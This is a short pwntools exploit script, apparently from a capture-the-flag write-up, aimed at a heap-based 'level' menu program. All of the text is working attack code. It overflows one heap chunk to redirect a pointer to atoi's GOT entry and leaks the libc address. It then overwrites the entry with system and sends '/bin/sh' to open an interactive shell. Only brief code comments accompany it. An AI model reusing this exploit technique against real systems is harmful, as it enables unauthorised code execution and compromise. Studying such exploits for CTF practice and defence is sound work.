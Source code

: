 ```
create_level(0)
reset()

explore(0) # going into the first chunk to overflow into the second chunk
payload1 = flat(
	
	b"B" * 0x20, # padding 
	0, # metadata
	0x0000000000000071, # size
	atoi_addr - 0x40 # Address to leak, as it loads like this - lea    rcx, [rdx + 0x40]
)
edit_level(payload1) # writes the above payload from first level overflowing up to the second
reset()


explore(1) # now curr points to the second chunk 
explore(0) # now curr points to atoi - 0x40
test_level() # leaks curr+0x40 now!

# parsing the leaks
#sleep(5)
leak = p.recvuntil(b'\x7f', drop = False)[-6:].ljust(8, b'\x00')
leak = u64(leak)
#print(hex(printf_addr))
sys_addr = leak - libc.sym['atoi'] + libc.sym['system']

edit_level(p64(sys_addr))
p.sendlineafter(b"Choice: ", b"/bin/sh\x00")
p.interactive()
```

